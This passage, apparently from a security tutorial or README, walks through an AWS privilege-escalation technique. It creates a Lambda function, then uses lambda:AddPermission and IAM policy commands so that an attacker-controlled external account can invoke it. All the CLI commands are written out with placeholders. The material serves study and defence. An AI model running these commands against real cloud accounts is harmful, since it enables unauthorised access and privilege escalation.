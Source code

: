 1. Create the lambda function. 

   `zip function.zip lambda_function.py`
   
   ```bash
   aws lambda create-function --profile PROFILE_NAME --function-name escalate_minimaluser --runtime python3.9 --role arn:aws:iam::ACCOUNT_NUMBER:role/LambdaExecutionRole --handler lambda_function.lambda_handler --zip-file fileb://function.zip --region PREFERRED_REGION
   ```

1. At this point we have a working function but with our current permissions we can not invoke it. This is where `lambda:AddPermission` can assist us. 

   ```bash
   aws lambda add-permission --profile PROFILE_NAME --function-name escalate_minimaluser --statement-id AllowExternalInvoke --action "lambda:InvokeFunction" --principal ATTACKER_CONTROLLED_ACCOUNT_NUMBER --region PREFERRED_REGION
   ```
   
   Keep in mind the `ATTACKER_CONTROLLED_ACCOUNT_NUMBER` is a completely different account than the one you are currently using.

1. **(Not Required)** We attempt to list the S3 buckets on the account, this will be denied due to our current permission set.

   ```bash
   aws s3 ls --region PREFERRED_REGION --profile PROFILE_NAME
   ```

1. A new policy document is created, this will be for  the "attacker controlled" account.

   Filename: `InvokeTargetLambdaPolicy.json`
   
   ```bash
   {
     "Version": "2012-10-17",
     "Statement": [
       {
         "Effect": "Allow",
         "Action": "lambda:InvokeFunction",
         "Resource": "arn:aws:lambda:TARGET_LAMBDA_REGION:ATTACKER_CONTROLLED_ACCOUNT_NUMBER:function:escalate_minimaluser"
       }
     ]
   }
   ```

1. The policy is added to the attacker's account.

   ```bash
   aws iam create-policy --policy-name LambdaInvokePolicy --policy-document file://InvokeTargetLambdaPolicy.json --profile PROFILE_FOR_ATTACKER_ACCOUNT
   ```

1. The policy is attached to another user they are in control of.

   ```bash
   aws iam attach-user-policy --policy-arn arn:aws:iam::ATTACKER_CONTROLLED_ACCOUNT_NUMBER:policy/LambdaInvokePolicy --user-name    ATTACKER_CONTROLLED_USERNAME --profile PROFILE_FOR_ATTACKER_ACCOUNT
   ```
